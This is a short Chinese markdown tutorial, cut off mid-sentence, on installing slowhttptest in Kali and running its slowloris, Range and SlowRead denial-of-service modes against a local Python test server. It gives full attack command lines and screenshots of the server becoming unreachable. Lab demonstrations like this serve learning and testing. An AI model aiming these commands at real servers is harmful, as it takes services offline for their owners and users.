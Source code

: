 ## 安装

在kali下执行以下命令，执行命令安装

apt-get install slowhttptest

## 测试

启动一个简易http服务

python -m http.server 9000

![启动python的简易服务器](./img/slowhttptest/启动简易http服务.png)
 
通过浏览器访问

![浏览器访问](./img/slowhttptest/浏览器访问1.png)

执行测试

slowloris模式

slowhttptest -c 1000 -H -g -o header_stats -i 10 -r 200 -t GET -u http://192.168.31.64:9000 -x 24 -p 3

Range模式

slowhttptest -R -u http://192.168.31.64:9000 -t HEAD -c 100 -a 10 -b 3000 -r 500

SlowRead模式

slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://192.168.31.64:9000 -p 3

我选择的第一个

![执行测试](./img/slowhttptest/执行测试.png)

再次去访问时

![无法访问](./img/slowhttptest/无法访问.png)

服务已经不能







